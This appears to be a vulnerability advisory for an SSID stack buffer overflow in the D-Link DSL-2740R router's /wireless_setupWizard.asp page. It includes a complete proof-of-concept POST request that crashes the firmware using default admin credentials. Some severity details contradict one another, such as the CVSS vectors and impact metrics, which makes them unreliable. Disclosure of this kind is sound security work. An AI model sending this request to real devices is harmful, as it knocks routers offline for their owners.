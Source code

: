 # 90 D-Link DSL-2740R Wireless Router SSID Buffer Overflow Vulnerability in /wireless_setupWizard.asp Interface

## 1. Basic Information

- Vulnerability Type: Buffer Overflow
- Vulnerability Description: In the D-Link DSL-2740R wireless router with firmware version 1.03_EU, there exists a buffer overflow vulnerability. The SSID parameter in the /wireless_setupWizard.asp interface contains a security vulnerability that allows remote attackers to submit specially crafted requests, causing a buffer overflow error that may lead to sensitive memory information disclosure and denial of service.
- Device Model and Version:
  - D-Link DSL-2740R
  - Firmware Version: 1.03_EU

- Test Device:
  - [x] Simulation Testing

## 2. Technical Vulnerability Principle

- Discovery Process: Fuzzing test on simulated device functional components
- Affected Vulnerability Components:
  - Web Management Service Component
  - Function: Quality of Service Configuration

## 3. Vulnerability Value

- Maturity of Public Information: None
- Number of Public Vulnerability Analysis Reports: None
- Stable Reproducibility: Yes
- Vulnerability Score (According to CVSS)
  - V2: [8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
  - V3.1: [9.1 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)
- Exploitation Conditions:
  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Vulnerability Exploitation Complexity:
    - Privilege Constraint: Authentication Required
    - User Interaction: No victim interaction required
  - Impact Scope: Changed (can affect components beyond the vulnerable component)
  - Impact Metrics:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Exploitation Stability: Stable Reproduction
  - Default Product Configuration: Vulnerability exists in factory-enabled function component
- Vulnerability Exploitation Effect:
  - Denial of Service
- Project Relevance of Vulnerability: None

## 4. PoC

PoC for D-Link DSL-2740R 1.03_EU:

```
POST /cgi-bin/wireless_setupWizard.asp HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 401
Origin: http://192.168.1.1
Connection: keep-alive
Referer: http://192.168.1.1/cgi-bin/wireless_autonetwork.asp
Cookie: SESSIONID=04d4df32; UID=admin; PSW=admin
Upgrade-Insecure-Requests: 1

SSID=1000000000000000000000000000000000000000000000000000000000&NoHideSSID=0&APOn=1&Channel=6&WirelessMode=9&WPAPSKWPA2PSK=WPAPSKWPA2PSK&TKIPAES=TKIPAES&WPSConfigured=2&chk_enableAP=on&Wlan_cbEnableFlag=1&wireless_keyin_ssid_0=D-Link+DSL-2740R&wz_page_8_wlan_passwd_0=4703c87e1&WLan_Finish_SSID=D-Link+DSL-2740R&WlanWpa_slMode=WPAPSKWPA2PSK&WLan_Finish_PSK_KEY=4703c87e1&SaveTpye=1&TKIPAES=TKIPAES
```

## 5. Vulnerability Principle

When the Web management component receives a POST request, the /wireless_setupWizard.asp component implementation has a security vulnerability in handling the SSID POST key parameter. The SSID parameter key can be of arbitrary length and is placed on the stack without proper validation, leading to a stack overflow. Attackers can exploit this vulnerability to overwrite the return address, causing the firmware to crash.

The firmware simulation process and interface are as follows:

![](./imgs/fat.png)

![](./imgs/web.png)

![](./imgs/web_crash.png)

![](./imgs/crash.png)

## 6. Basis for 0-day Vulnerability Determination

No relevant vulnerabilities were found when searching for the keywords "wireless_setupWizard" and "SSID" in the CVE database (similar series of vulnerabilities can typically be found by directly searching for the interface name in historical vulnerability records).
